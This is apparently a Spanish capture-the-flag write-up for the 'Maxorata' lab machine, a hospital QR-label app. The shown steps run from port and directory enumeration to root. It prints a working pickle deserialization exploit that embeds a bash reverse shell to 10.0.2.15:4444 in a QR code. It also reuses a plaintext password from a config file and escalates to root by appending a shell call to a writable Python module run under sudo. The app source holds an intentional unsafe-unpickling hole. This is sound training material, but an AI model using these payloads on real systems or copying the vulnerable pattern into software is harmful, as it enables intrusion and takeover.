




## Table of contents

## Enumeración

La máquina Maxorata tiene la ip **10.0.2.20**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.0.2.20

Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.68 ((Debian))
|_http-title: Hospital Insular Maxorata
|_http-server-header: Apache/2.4.68 (Debian)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: MaxoQR - Hospital Insular Maxorata
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
```
 
### Puerto 5000 (Web)

Accedemos con el navegador al puerto 5000 de la ip y nos encontramos con una plataforma de generación de códigos **QR** para un centro hospitalario.



Revisando las web encontramos dos apartados, generar y reimprimir.

En **generar** podemos crear un código QR con los datos que proporcionemos.



En **reimprimir** podemos subir un código QR en formato png para extraer la información del paciente.

Vamos a emplear **gobuster** para enumerar subdirectorios dentro de la web.

```bash
gobuster dir  -u "http://10.0.2.20:5000" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --add-slash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.20:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
backup/              (Status: 200) [Size: 2663]
```

Encontramos un subdirectorio **/backup** donde podemos descargar un backup del código fuente de la aplicación.



```python
import base64, pickle, subprocess, tempfile, os, uuid
from datetime import datetime
from flask import Flask, request, render_template, send_from_directory

app = Flask(__name__)
BASE = os.path.dirname(os.path.abspath(__file__))

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/generar", methods=["GET", "POST"])
def generar():
    if request.method == "GET":
        return render_template("generar.html")

    etiqueta = {
        "paciente":   request.form.get("paciente", ""),
        "nhc":        request.form.get("nhc", ""),
        "habitacion": request.form.get("habitacion", ""),
        "servicio":   request.form.get("servicio", ""),
        "emitida":    datetime.now().strftime("%d/%m/%Y %H:%M"),
    }
    payload = base64.b64encode(pickle.dumps(etiqueta)).decode()

    import qrcode
    nombre = f"{uuid.uuid4().hex}.png"
    qrcode.make(payload).save(os.path.join(BASE, "static", "qr", nombre))

    return render_template("generar.html", qr=nombre,
                           payload=payload, etiqueta=etiqueta)

@app.route("/reimprimir", methods=["GET", "POST"])
def reimprimir():
    if request.method == "GET":
        return render_template("reimprimir.html")

    f = request.files.get("etiqueta")
    if not f or not f.filename:
        return render_template("reimprimir.html",
                               error="Debe adjuntar la imagen de la etiqueta.")

    fd, path = tempfile.mkstemp(suffix=".png")
    os.close(fd)
    f.save(path)
    try:
        r = subprocess.run(["zbarimg", "-q", "--raw", path],
                           capture_output=True, text=True, timeout=10)
        data = r.stdout.strip()
        if not data:
            return render_template("reimprimir.html",
                                   error="No se ha podido leer el codigo QR.")
        etiqueta = pickle.loads(base64.b64decode(data))
        return render_template("reimprimir.html", etiqueta=etiqueta)
    except Exception as e:
        return render_template("reimprimir.html",
                               error=f"Etiqueta corrupta: {e}")
    finally:
        os.unlink(path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

## Explotación
### Python Pickle Deserialization Attack

Podemos ver que se produce una deserialización con pickle sin ningún tipo de sanitización. Esto nos permite generar un QR con una reverse shell para que, durante el proceso de deserialización en el endpoint **reimprimir**, se ejecute nuestro código.

Generamos un QR malicioso con la misma estructura de creación que utiliza la app.

```python
import pickle, os, binascii, base64, qrcode

class exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.0.2.15/4444 0>&1"',))

payload=base64.b64encode(pickle.dumps(exploit())).decode()

qrcode.make(payload).save("exploit.png")
```

Ahora nos ponemos en escucha con **netcat** y subimos nuestro **exploit.png** a reimprimir.

```bash
nc -nlvp 4444
```




Recibimos la shell como el usuario **maxoqr**.

## Movimiento Lateral
### Ecabrera

Miramos el contenido del archivo de **/opt/maxoqr/config.ini**

```bash
maxoqr@TheHackersLabs-Maxorata:~$ cat /opt/maxoqr/config.ini 
; MaxoQR - configuracion del aplicativo
; Servicio de Informatica - Hospital Insular Maxorata
; Ultima revision: migracion 14/03 (E. Cabrera)

[app]
instancia = MaxoQR
puerto = 5000
ruta_qr = /opt/maxoqr/static/qr
retencion_dias = 30

[smtp]
; Notificacion de duplicados al control de enfermeria
servidor = correo.maxorata.local
puerto = 587
remitente = maxoqr@maxorata.local
usuario = ecabrera
password = Tindaya2024!
tls = si

[impresion]
cola = etiquetadora-3p
formato = 62x29
```

En él encontramos las credenciales del usuario **ecabrera**.

```bash
maxoqr@TheHackersLabs-Maxorata:~$ su ecabrera

ecabrera@TheHackersLabs-Maxorata:~$ ls -la
total 28
drwxr-xr-x 3 ecabrera ecabrera 4096 sep  6 12:29 .
drwxr-xr-x 3 root     root     4096 ago  9 13:37 ..
-rw------- 1 ecabrera ecabrera    0 ago  9 13:30 .bash_history
-rw-r--r-- 1 ecabrera ecabrera  220 abr 23  2023 .bash_logout
-rw-r--r-- 1 ecabrera ecabrera 3526 abr 23  2023 .bashrc
drwxr-xr-x 3 ecabrera ecabrera 4096 sep  6 12:29 .local
-rw-r--r-- 1 ecabrera ecabrera  807 abr 23  2023 .profile
-rw-r----- 1 ecabrera ecabrera   39 ago  9 13:07 user.txt
```

## Escalada de Privilegios
### Root

Al revisar los permisos **sudoers** vemos que el usuario **ecabrera** puede ejecutar como **root** el binario de **python3** sobre el script **/opt/maxorata/backup_etiquetas.py**

No tenemos permisos de escritura sobre ese script ni en el directorio en el que se encuentra. Revisamos su contenido.

```python
#!/usr/bin/env python3
# Copia de seguridad de las etiquetas emitidas por MaxoQR
# Servicio de Informatica - Hospital Insular Maxorata

import sys, os, tarfile
sys.dont_write_bytecode = True
sys.path.insert(0, "/opt/maxorata/lib")

import qrutils

ORIGEN = "/opt/maxoqr/static/qr"
DESTINO = "/var/backups/maxoqr"

def main():
    os.makedirs(DESTINO, exist_ok=True)
    total = qrutils.contar_etiquetas(ORIGEN)
    nombre = f"etiquetas-{qrutils.marca_temporal()}.tar.gz"
    destino = os.path.join(DESTINO, nombre)
    with tarfile.open(destino, "w:gz") as tar:
        tar.add(ORIGEN, arcname="qr")
    print(f"[+] {total} etiquetas archivadas en {destino}")

if __name__ == "__main__":
    main()
```

Se está immportando **qrutils** que se encuentra dentro del directorio **/opt/maxorata/lib** y sobre ese script de python si tenemos permisos de escritura.

```bash
ecabrera@TheHackersLabs-Maxorata:~$ ls -la /opt/maxorata/lib/
total 12
drwxrwxr-x 2 root ecabrera 4096 sep  6 12:31 .
drwxr-xr-x 3 root root     4096 ago  9 13:17 ..
-rw-rw-r-- 1 root ecabrera  322 sep  6 12:31 qrutils.py
```

Revisando su contenido vemos que importa la librería **os**.

```python
"""Utilidades de etiquetado - Servicio de Informatica HIM"""
import os
from datetime import datetime

def marca_temporal():
    return datetime.now().strftime("%Y%m%d-%H%M%S")

def contar_etiquetas(ruta):
    if not os.path.isdir(ruta):
        return 0
    return len([f for f in os.listdir(ruta) if f.endswith(".png")])
```

Por lo tanto, vamos a abusar de los permisos de escritura sobre él para hacer que nos lance una bash privilegiada.

De esta forma cuando ejecutemos como **root** el script de **backup_etiqueta.py** se ejecutará la bash privilegiada que añadimos en **qrutils.py** y nos convertiremos en **root**.

```bash
ecabrera@TheHackersLabs-Maxorata:~$ echo 'os.system("/bin/bash -p")' >> /opt/maxorata/lib/qrutils.py 
ecabrera@TheHackersLabs-Maxorata:~$ sudo /usr/bin/python3 /opt/maxorata/backup_etiquetas.py 

root@TheHackersLabs-Maxorata:/home/ecabrera# whoami
root
root@TheHackersLabs-Maxorata:/home/ecabrera# ls -la /root/
total 32
drwx------  4 root root 4096 ago  9 13:46 .
drwxr-xr-x 18 root root 4096 ago  9 13:52 ..
-rw-------  1 root root 2109 sep  6 12:31 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 oct 16  2024 .local
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   38 ago  9 13:13 root.txt
drwx------  2 root root 4096 ago  9 13:46 .ssh
```